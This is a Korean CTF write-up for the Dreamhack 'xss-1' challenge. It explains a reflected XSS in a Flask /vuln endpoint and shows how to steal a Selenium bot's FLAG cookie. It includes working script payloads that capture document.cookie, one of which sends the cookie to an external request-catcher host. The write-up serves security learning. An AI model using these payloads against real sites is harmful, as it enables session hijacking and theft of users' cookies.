







## 📍xss-1

```
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

들어가보면 /, /vuln, /memo, /flag 4개의 페이지를 제공한다.


#### 소스코드

vuln 페이지는 이용자가 전달한 `param` 파라미터의 값을 출력한다.


memo 페이지는 이용자가 전달한 `memo` 파라미터 값을 `memo_text`에 추가하고, `render_template` 함수를 통해 출력한다.


flag 페이지는 GET 요청의 경우 이용자에게 URL을 입력받는 페이지를 제공한다.
POST 요청의 경우, 이용자가 전달한 `param` 파라미터에 값과 쿠키에 FLAG를 포함해 `check_xss` 함수를 호출한다.


`check_xss` 함수는 `read_url` 함수를 호출해서 vuln 엔드포인트에 접속한다.



`read_url` 함수는 Selenium 웹드라이버를 사용해 쿠키를 추가하고 주어진 url에 접속하는 함수였다.
따라서 FLAG는 Selenium 봇의 쿠키에 들어가 있으므로 쿠키를 탈취해야 한다.


#### 취약점

vuln과 memo는 둘 다 이용자의 입력값을 페이지에 출력하지만, memo는 `render_translate` 함수를 사용해서 출력한다. `render_template` 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다.
vuln은 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.


#### 해결

vuln 엔드포인트에서 발생하는 XSS 취약점을 통해 Selenium 봇의 쿠키를 탈취한다.
(document.cookie)

memo 페이지는 이용자가 추가한 값을 출력하므로, flag 값을 확인하려면 flag 엔드포인트에서 이런 코드를 입력한다.
```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```



memo 페이지에 flag 값이 출력되어 있다.



혹은 외부에서 접근 가능한 웹 서버 주소를 넣어서 탈취한 쿠키를 확인할 수도 있다.
https://tools.dreamhack.games/main
```javascript
<script>
	location.href = "EXAMPLEHOST.request.dreamhack.games/?memo=" + document.cookie;
</script>
```


